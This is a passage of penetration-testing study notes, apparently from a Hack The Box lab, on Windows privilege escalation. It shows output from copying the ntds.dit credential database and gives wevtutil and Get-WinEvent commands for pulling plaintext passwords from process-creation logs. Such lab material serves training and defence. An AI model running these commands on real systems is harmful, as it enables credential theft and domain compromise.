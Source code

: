         Files : ntds.dit

    Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

    ------------------------------------------------------------------------------

            New Dir          1    E:\Windows\NTDS\
    100%        New File              16.0 m        ntds.dit

    ------------------------------------------------------------------------------

                Total    Copied   Skipped  Mismatch    FAILED    Extras
        Dirs :         1         1         0         0         0         0
    Files :         1         1         0         0         0         0
    Bytes :   16.00 m   16.00 m         0         0         0         0
    Times :   0:00:00   0:00:00                       0:00:00   0:00:00


    Speed :           356962042 Bytes/sec.
    Speed :           20425.531 MegaBytes/min.
    Ended : Thursday, May 6, 2021 1:11:47 PM
    ```

#### Event Log Readers
- Suppose auditing of process creation events and corresponding command line values is enabled.
- In that case, this information is saved to the Windows security event log as event ID 4688: A new process has been created.
- Organizations may enable logging of process command lines to help defenders monitor and identify possibly malicious behavior and identify binaries that should not be present on a system.
- Many Windows commands support passing a password as a parameter, and if auditing of process command lines is enabled, this sensitive information will be captured.

- Confirming Group Membership
```cmd
C:\htb> net localgroup "Event Log Readers"

Alias name     Event Log Readers
Comment        Members of this group can read event logs from local machine

Members

-------------------------------------------------------------------------------
logger
The command completed successfully.
```
- Searching Security Logs Using wevtutil
```powershell
PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"

        Process Command Line:   net use T: \\fs01\backups /user:tim MyStr0ngP@ssword


# Passing Credentials to wevtutil
C:\htb> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"

```
- For Get-WinEvent, the syntax is as follows. In this example, we filter for process creation events (4688), which contain /user in the process command line.
```powershell
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```
